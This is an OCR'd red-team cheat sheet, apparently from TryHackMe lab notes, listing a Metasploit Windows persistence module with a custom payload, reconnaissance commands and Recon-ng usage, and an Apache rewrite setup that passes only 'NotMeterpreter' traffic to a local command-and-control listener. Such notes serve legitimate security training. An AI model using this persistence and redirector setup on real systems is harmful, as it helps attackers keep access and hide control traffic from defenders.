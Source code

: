 misc::cmd

# Metasploit Persistence #

use exploit/windows/local/persistence

set EXE::CUSTOM payload.exe

# WHOIS / Nslookup / Dig / Host / TraceRoute / Shodan #

whois thmredteam.com

nslookup cafe.thmredteam.com

dig @1.1.1.1 tryhackme.com

host clinic.thmredteam.com

traceroute clinic.thmredteam.com

shodan host 167.86.125.151 

# Recon-NG #

workspaces create thmredteam

recon-ng -w WORKSPACE_NAME

recon-ng -r asd

db insert domains

marketplace search domains-

marketplace install google_site_web

modules load viewdns_reverse_whois

options list

options set

keys list

keys add KEY_NAME KEY_VALUE

keys remove KEY_NAME
 
# Apache2 User-Agent Default #

cat /etc/apache2/sites-available/000-default.conf  | grep -v '#'

RewriteEngine On

RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"

ProxyPass "/" "http://localhost:8080/"
